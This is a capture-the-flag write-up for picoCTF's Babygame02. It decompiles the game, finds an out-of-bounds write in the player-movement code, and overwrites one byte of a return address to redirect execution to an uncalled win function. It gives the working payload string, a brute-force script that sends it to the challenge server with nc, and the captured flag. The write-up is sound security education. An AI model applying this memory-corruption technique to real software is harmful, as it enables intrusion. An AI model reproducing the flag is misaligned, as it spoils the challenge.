




PicoCTF Babygame02 Writeup: <br>
Like Babygame01, we are placed in a 30 x 90 grid
with a flag('X') placed on the bottom right corner. Upon reaching it, the
game exits, but we do not get the flag.


Opening the game in ghidra we get the following decompiler output from main:

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  int iVar1;
  int local_aa8;
  int local_aa4;
  undefined local_a9d [2700];
  char local_11;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  init_player(&local_aa8);
  init_map(local_a9d,&local_aa8);
  print_map(local_a9d,&local_aa8);
  signal(2,sigint_handler);
  do {
    do {
      iVar1 = getchar();
      local_11 = (char)iVar1;
      move_player(&local_aa8,(int)local_11,local_a9d);
      print_map(local_a9d,&local_aa8);
    } while (local_aa8 != 0x1d);
  } while (local_aa4 != 0x59);
  puts("You win!");
  return 0;
}
```

Like before, **local_a9d** is the map, player height is **local_aa8**, and width is **local_a9d** based on the while conditionals, but this time there is no win flag. The game just exits after you reach the 'X', how are we supposed to get the game to print out the flag?

When looking at the symbol table, we see that win function is still there, it just isn't called by anything.



Maybe cleaning up the decompiler output will give us more clues?



```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  int iVar1;
  playerStruct player;
  char map [2700];
  
  init_player(&player);
  init_map(map,&player);
  print_map(map,&player);
  signal(2,sigint_handler);
  do {
    do {
      iVar1 = getchar();
      move_player(&player,(int)(char)iVar1,map);
      print_map(map,&player);
    } while (player.height != 0x1d);
  } while (player.width != 0x59);
  puts("You win!");
  return 0;
}
```

Note to myself: retyping map from undefined[2700] to char[2700] removed the ecx stack
alignment stuff local_10 and also local_11? 

Now the code is cleaned up and pretty looking :)

Like before, the only thing we control is the input to move_player so lets see what this function lets us do.

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void move_player(playerStruct *player,char input,int map)

{
  int iVar1;
  
  if (input == 'l') {
    iVar1 = getchar();
    player_tile = (undefined)iVar1;
  }
  if (input == 'p') {
    solve_round(map,player);
  }
  *(undefined *)(player->height * 0x5a + map + player->width) = 0x2e;
  if (input == 'w') {
    player->height = player->height + -1;
  }
  else if (input == 's') {
    player->height = player->height + 1;
  }
  else if (input == 'a') {
    player->width = player->width + -1;
  }
  else if (input == 'd') {
    player->width = player->width + 1;
  }
  *(undefined *)(player->height * 0x5a + map + player->width) = player_tile;
  return;
}
```

It looks like the same as before, we are able to set our player's position to anything, and so we can overwrite memory outside of the map. We can also change
player_tile using 'l'. Does this mean we can arbitrarily change the memory to anything we want? Unfortunately we can not. After moving away from a tile, the game writes 0x2e to the the original position, so any value we set will get overwritten by dots one turn later. 

We need to call the win function, and we have the ability to overwrite an arbitrary amount of bytes with the value 0x2e, and one byte with a chosen value.
What can we do? The address of the win function is0x0804975d, but thats 4 bytes, and we only have one byte at our disposal. However, move_player is called at 0x08049704 and its return value is the address of the next instruction, 0x08049709. This is only one byte off from the address of win, so we only need to overwrite a single byte
 to return to win!


To find the position of the location of move_player's return address relative to
the map, we can use gdb. I've set a breakpoint at the very start of
move_player (before ebp is pushed) in order to examine its return value and arguments.



At this state, esp contains the return address, esp + 0x4 contains the address
of the player struct (move_player's first argument), esp + 0x8 points to our input (0x77='w'),
and esp + 0xc is address of the beginning of the map struct. We want to change
the least significant byte of our return address from 0x09 to 0x5d, so we want
to write to 0xffffc24c (this is little endian, so the LSB is stored at the
base). Our map starts at 0xffffc273 (based on the third argument) so we want to
access map[0xffffc24c - 0xffffc273] = map[-39]. Of course, we want to be careful
not to write to other values on the stack that might cause the game to break.
One way we could do that is by setting our index to have the game access map[51]
and moving up so that the game will access map[51-90]=map[-39]. I will do this: 
set the player to 0x5d = ']' and move to (0, 0), than perform the following
sequence of moves:
```
's' map[90]
'a' * 39 map[90 - 39] = map[51]
'w' map[51 - 90] = map[-39]
```
Final command looks like this: 

`echo aaaawwwwl]saaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaw | ./game`

On local machine:



Unfortunately I get trolled on the challenge instance and it breaks before giving a flag :(
This is probably because the address of win is different so what I did was brute force the value of the last byte of win's address. Here's a little script I wrote to make brute forcing
easier.

```bash
#! /bin/sh

pwn () {
	echo "aaaawwwwl$1saaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaw" | nc saturn.picoctf.net XXXXX > out; tail out
}
```

After like 5 attempts,


We get the flag **picoCTF{gamer_jump1ng_4r0unD_0c5d2789}**


